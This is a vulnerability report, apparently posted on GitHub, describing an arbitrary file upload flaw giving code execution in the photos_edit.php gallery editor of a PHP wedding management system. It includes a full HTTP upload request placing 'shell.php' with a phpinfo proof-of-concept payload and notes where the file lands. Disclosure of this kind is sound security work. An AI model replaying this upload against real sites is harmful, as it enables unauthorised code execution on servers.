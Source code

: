 # WeddingManagement System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/photos_edit.php?id=37

Loophole location：The editing function of "Gallery" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "photos_edit.php" file.

Click "Edit" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/photos_edit.php?id=37 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/photos_edit.php?id=37
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------30999215895801
Content-Length: 826

-----------------------------30999215895801
Content-Disposition: form-data; name="booking_id"

34
-----------------------------30999215895801
Content-Disposition: form-data; name="title"


-----------------------------30999215895801
Content-Disposition: form-data; name="caption"


-----------------------------30999215895801
Content-Disposition: form-data; name="alternate_text"


-----------------------------30999215895801
Content-Disposition: form-data; name="description"


-----------------------------30999215895801
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------30999215895801
Content-Disposition: form-data; name="submit"

Edit
-----------------------------30999215895801--
```

The files will be uploaded to this directory \admin\upload\gallery\

![image](https://user-images.githubusercontent.com/54017627/167980065-e4b1ed4e-23bb-42f5-a31a-a17443a0a53a.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167980032-7a1783a7-b257-429a-ae06-8954c38f8fc5.png)
